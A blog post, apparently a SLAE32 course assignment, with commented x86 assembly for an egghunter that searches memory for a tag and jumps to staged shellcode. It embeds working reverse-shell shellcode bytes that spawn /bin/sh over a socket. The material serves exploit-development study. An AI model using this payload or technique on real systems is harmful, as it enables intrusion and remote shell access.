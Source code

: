 ```yaml
---
layout: post
title:  SLAE32 Assignment 3 - egghunter
excerpt: asm code for my egghunter
---
```

    ; name        : egghunter 
    ; author      : Sandro "guly" Zaccarini SLAE-1037
    ; purpose     : this code has been written for SLAE32 assignment 3
    ; license     : CC-BY-NC-SA
    ; description : this code will search a string in memory, repeated twice to avoid
    ;               potential false positives, and when found jumps just after it to
    ;               execute following code.
    ;               because this course is about assembly, i'm trying avoid any C code,
    ;               therefore also stage2 will be placed in this file in data section.
    ;
    ; the program starts from address memory 0x08048000 , because i know that .data
    ; places values there, and reads 4 bytes to compare to a known egg
    ; note that in a different scenario, where for example i exploited a buffer overflow,
    ; i could've places stage2 at stack page and the seek would be a bit longer
    ;
    ; i also know that not all addresses are readable by the program: that's why i'm
    ; checking if i can read before to compare.
    ;
    ; during the journey i learned about scasd: the op compares edi and eax and is just
    ; 1 byte, when a classic cmp is 2. saving 2 bytes in an egghunter could be lifesaver,
    ; but i'm using cmp anyway here
    ;
    
    global _start
    section .text
    
    exit:
    xor eax,eax
    mov al,0x1
    int 0x80
    
    trap:
    ret
    
    _start:
    ; start by zeroing eax and edx, because better safe than sorry
    xor eax,eax
    xor edx,edx
    ; and because i won't need ebx, and ecx will be completely overwritten by a mov later
    
    ; GUGU will match revshell, little endian.
    ; you can found revshell asm in github repo https://github.com/gulyslae/SLAE32
    mov esi, 0x55475547
    ; LYLY will match writeHelo, little endian
    ;mov esi, 0x594c594c
    
    ; i'm starting from 0x08048000 because i know where to look. i've started from 0x1000
    ; using dl as 0x1 and not 0x0 to avoid null byte
    ; actually i don't needed to zero edx here: i'm mova full 4bytes. in a real shellcode
    ; i probably had to start from 0x1000 as i said and that's why i'd need edx to be 0x0
    mov edx, 0x08047001
    
    nextp:
    ; align page, for this example i would have it 0x08047fff
    or dx, 0xfff
    
    nextb:
    ; and with this inc i'll be at the top of the memory page, which will be 0x08048000
    inc edx
    
    ; inc edx will result in an overflow of our 32bit register as soon as we reach
    ; 0xfffff000 memory segment. by checking OF flag, we know that we reached the end of
    ; the memory: to avoid DoSsing the box, we call a neat exit
    jo exit
    
    ; check if we can read the memory
    ; i'm using sys_access syscall here, that has code 0x21
    ; she needs of course arguments:
    ; eax => sys_access id, 0x21
    ; ebx => pointer to page address
    xor eax, eax
    mov al, 0x21
    lea ebx, [edx+8]
    
    ; do the call
    int 0x80
    
    ; as usual, eax will hold res code. EFAULT, means noaccess, is 0xf2
    cmp al, 0xf2
    ; if we have a fault here, jump to next page by adding 0x1000
    jz nextp
    
    ; search for the egg
    cmp [edx], esi
    jnz nextb
    
    ; search again for 2nd copy of the egg to avoid matching code itself or any other
    ; false positive
    cmp [edx+4], esi
    jnz nextb
    
    ; egg found, jump to shellcode
    lea esi, [edx + 8]
    call trap
    jmp esi
    
    section .data
    ; all shellcode ends with 0x31, 0xC0, 0xB0, 0x01, 0xCD, 0x80 which is my neat exit
    ; looking for EGG GUGU i'm going to receive a revshell on localhost port 65533 by
    ; using the code from 03_revshell_tcp.asm found in https://github.com/gulyslae/SLAE32
    ;revshell: db 0x47,0x55,0x47,0x55,0x47,0x55,0x47,0x55,0x6a,0x66,0x58,0x6a,0x01,0x5b,0x31,0xc9,0x51,0x53,0x6a,0x02,0x89,0xe1,0xcd,0x80,0x89,0xc7,0xb0,0x66,0x5b,0x68,0x7f,0x01,0x01,0x01,0x66,0x68,0x04,0xd2,0x66,0x53,0x89,0xe1,0x6a,0x10,0x51,0x57,0x89,0xe1,0x43,0xcd,0x80,0x87,0xfb,0x6a,0x02,0x59,0xb0,0x3f,0xcd,0x80,0x49,0xb0,0x3f,0xcd,0x80,0x49,0xb0,0x3f,0xcd,0x80,0x31,0xd2,0x52,0x68,0x2f,0x2f,0x73,0x68,0x68,0x2f,0x62,0x69,0x6e,0x89,0xe3,0x89,0xd1,0xb0,0x0b,0xcd,0x80
    revshell: db  0x47,0x55,0x47,0x55,0x47,0x55,0x47,0x55,0x31,0xc0,0x31,0xdb,0x50,0x40,0x50,0x40,0x50,0x89,0xe1,0xb0,0x33,0x04,0x33,0x43,0xcd,0x80,0x89,0xc6,0x31,0xc0,0x31,0xdb,0x68,0xac,0x10,0xc9,0xa2,0x68,0x7f,0x01,0x01,0x01,0x66,0x68,0xff,0xfb,0x66,0x6a,0x02,0x89,0xe1,0x6a,0x10,0x51,0x56,0x89,0xe1,0xb3,0x03,0xb0,0x33,0x04,0x33,0xcd,0x80,0x31,0xc9,0xb1,0x03,0x89,0xf3,0x31,0xc0,0xb0,0x3f,0x49,0xcd,0x80,0xb0,0x3f,0x49,0xcd,0x80,0xb0,0x3f,0x49,0xcd,0x80,0x51,0x68,0x2f,0x2f,0x73,0x68,0x68,0x2f,0x62,0x69,0x6e,0x89,0xe3,0x51,0x89,0xe2,0x51,0x89,0xe1,0xb0,0x0b,0xcd,0x80,0x31,0xc0,0xb0,0x01,0xcd,0x80
    ; looking for EGG LYLY i'm just printing Helo string
    writeHelo: db 0x4c,0x59,0x4c,0x59,0x4c,0x59,0x4c,0x59,0x31,0xc0,0x31,0xdb,0x31,0xd2,0x50,0x68,0x48,0x65,0x6c,0x6c,0xb0,0x04,0xb3,0x01,0x89,0xe1,0xb2,0x04,0xcd,0x80,0x31,0xc0,0x31,0xdb,0xfe,0xc0,0xb3,0x05,0xcd,0x80
    
*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/*
